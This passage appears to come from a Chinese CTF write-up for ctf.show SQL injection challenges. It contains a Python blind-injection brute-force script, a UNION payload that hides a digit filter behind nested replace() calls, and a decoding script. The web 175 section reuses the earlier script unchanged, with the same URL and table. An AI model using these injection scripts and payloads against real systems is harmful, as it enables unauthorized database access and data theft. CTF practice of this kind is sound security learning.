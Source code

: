 方法1 :盲注

通过查询flag的每一位和字符来比较

```python
import requests
import string
flag = ''
table = string.digits + string.ascii_letters + '-{}'
for i in range(1, 45):
    for j in table:
        # url去掉s  接口在网络面板里可以看到
        url = "http://f4b0bf5f-7277-4562-964d-cbe5e5737fb6.challenge.ctf.show/api/v4.php?id="
        payload = '''1' and substr((select password from ctfshow_user4 where username="flag"),{},1)="{}"--+'''.format(i,j)
        r = requests.get(url + payload)
        if "admin" in r.text:
            flag += j
            print(flag)
            break
```

方法2：结果里过滤了数字，使用sql语句里的replace替换成其他字符，查询后再替换回去

payload
```
1'union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(hex(password),'1','nba'),'2','nbb'),'3','nbc'),'4','nbd'),'5','nbe'),'6','nbf'),'7','nbg'),'8','nbh'),'9','nbi'),'0','nbj'),'a' from ctfshow_user4 where username='flag'--+
```

还原脚本
```python
nb='nbfnbcnbgnbdnbfnbfnbgnbcnbfnbhnbfFnbgnbgnbgBnbcnbhnbfnbbnbcnbcnbcnbenbfnbbnbfnbenbfnbcnbfnbanbbDnbcnbcnbcnbgnbcnbgnbfnbdnbbDnbcnbdnbcnbbnbfnbfnbcnbhnbbDnbcnbhnbfnbanbfnbdnbcnbdnbbDnbcnbfnbfnbcnbfnbanbfnbbnbcnbgnbcnbhnbcnbenbfnbfnbcnbcnbcnbdnbfnbanbfnbbnbgD'

nb=nb.replace('nba','1').replace('nbb','2').replace('nbc','3').replace('nbd','4').replace('nbe','5').replace('nbf','6').replace('nbg','7').replace('nbh','8').replace('nbi','9').replace('nbj','0')
flag = bytes.fromhex(nb).decode("ascii")
print(flag)
```

## web 175

```php
if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

这个正则匹配了所有的ascll码，ascll码0-127的字符都被过滤了(字母数字字符)

解法1：；盲注

```python
import requests
import string
flag = ''
table = string.digits + string.ascii_letters + '-{}'
for i in range(1, 45):
    for j in table:
        url = "http://f4b0bf5f-7277-4562-964d-cbe5e5737fb6.challenge.ctf.show/api/v4.php?id="
        payload = '''1' and substr((select password from ctfshow_user4 where username="flag"),{},1)="{}"--+'''.format(i,j)
        r = requests.get(url + payload)
        if "admin" in r.text:
            flag += j
            print(flag)
```